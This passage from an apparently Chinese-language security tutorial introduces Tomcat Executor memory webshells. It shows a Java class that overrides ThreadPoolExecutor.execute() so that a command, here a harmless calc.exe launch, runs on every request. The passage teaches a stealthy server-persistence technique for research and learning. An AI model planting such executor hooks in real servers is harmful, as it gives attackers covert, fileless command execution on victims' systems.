 然后在`request1`里面的`connector`的`protocolHandler`里面发现了`httpUpgradeProtocols`：

[![](assets/1708482741-d3005a81e29cf4e25badeb5342d39277.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211002841-7397bf1e-c831-1.jpeg)

接下来就是一步步地反射了。

## 2.15 Tomcat Executor 内存马介绍与打入内存马思路分析

### 2.15.1

新建一个项目，配置好`tomcat`运行环境和`web`目录，然后新建以下两个文件，第一个是 TestExecutor.java：

```bash
package org.example;

import java.io.IOException;
import java.util.concurrent.SynchronousQueue;
import java.util.concurrent.ThreadPoolExecutor;
import java.util.concurrent.TimeUnit;

public class TestExecutor extends ThreadPoolExecutor {

    public TestExecutor() {
        super(0, Integer.MAX_VALUE, 60L, TimeUnit.SECONDS, new SynchronousQueue<>());
    }

    @Override
    public void execute(Runnable command) {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        super.execute(command);
    }
}
```
